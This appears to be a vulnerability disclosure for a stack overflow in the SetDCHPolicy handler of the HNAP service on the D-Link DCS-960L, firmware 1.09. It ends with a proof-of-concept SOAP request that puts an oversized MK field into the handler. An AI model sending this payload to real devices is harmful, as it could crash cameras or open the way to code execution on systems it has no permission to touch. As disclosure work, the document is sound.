 # DCS-960L 1.09 Stack overflow

## Product Info

**Supplier**: [Smart Home, SMB and Enterprise solutions | D-Link (dlink.com)](https://www.dlink.com/en)

**Router model**: DCS-960L

**Router Version**: 1.09

**Firmware**: [D-Link Technical Support (dlinktw.com.tw)](https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DCS-960L)


## Vulnerability introduction

  A stack overflow vulnerability in the SetDCHPolicy function of the HNAP service of D-Link DCS-960L with firmware version 1.09 allows an attacker to execute arbitrary code.



## Vulnerability analysis



In HNAP's SetDCHPolicy function, by constructing MK, the program does not check the length of the MK field, causing a stack overflow.

![image](https://github.com/user-attachments/assets/eec2b9b7-309a-4bd8-a8cd-148e3cef7dd5)

![image](https://github.com/user-attachments/assets/b26de367-7cd4-4f66-ade5-5dfa21a29ff2)


## POC



```xml
SOAPAction: http://192.168.0.1/HNAP1/Login
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SetDCHPolicy xmlns="http://192.168.0.1/HNAP1/">
      <PolicyList>
        <PolicyInfo>
          <MK> a * 160000 </MK>
        </PolicyInfo>
      </PolicyList>
    </SetDCHPolicy>
  </soap:Body>
</soap:Envelope>
```

